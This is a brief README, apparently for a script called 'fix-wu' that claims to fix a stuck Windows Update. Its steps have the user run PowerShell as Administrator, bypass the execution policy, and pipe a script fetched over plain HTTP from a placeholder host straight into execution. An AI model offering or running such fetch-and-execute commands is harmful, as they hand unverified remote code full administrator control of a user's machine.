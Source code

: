 # fix-wu
Fixes Windows Update stuck problem


1. Run PowerShell as Administrator

2. Set the execution policy

    ```powershell
    Set-ExecutionPolicy Bypass -Scope Process -Force
    ```

3. Run script directly from the web

    ```powershell
    irm http://webpage.com/script.ps1 | iex
    ```
